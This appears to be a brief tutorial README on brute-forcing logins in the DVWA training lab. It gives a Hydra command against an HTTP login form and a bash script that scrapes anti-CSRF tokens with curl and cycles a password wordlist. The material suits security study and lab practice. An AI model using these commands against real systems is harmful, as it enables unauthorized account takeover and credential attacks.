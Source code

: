 ## 1. Brute Force Attack

![](https://pimages.toolbox.com/wp-content/uploads/2022/05/10131245/Critical-Steps-of-a-Brute-Force-Attack.png)
>We will use DVWA Labs To Learn Bruteforce Attacks

>We will use hydra and custom bash script to perform bruteforce attack

**Hydra**
```
hydra target.com -V -l username -P "worldlists.txt" http-get-form "/path:formusername=^USER^&formpassword=^PASS^&FormLogin=Login:F=Fail Message:H=Cookie: Cookies"
```

**BASH Script**
```
#!/usr/bin/bash
crack() {
token=$(curl -s --cookie "PHPSESSID=d9bhskt5gc3jmctc1eilhr56e6; security=high"  "http://localhost/vulnerabilities/brute/" | grep user_token  | grep -oP "value='\K[^']+")
html_codes=$(curl -s --cookie "PHPSESSID=d9bhskt5gc3jmctc1eilhr56e6; security=high"  "http://localhost/vulnerabilities/brute/?username=admin&password=$1&Login=Login&user_token=$token")
if [[ $(echo "${html_codes}" | grep -i "Welcome to the password protected area admin") ]];then
echo "Success"
exit
else
echo "Failed"
fi
}
while IFS= read -r passwords;do
echo "Trying... ($passwords)"
crack $passwords
done < /usr/share/wordlists/fasttrack.txt
```
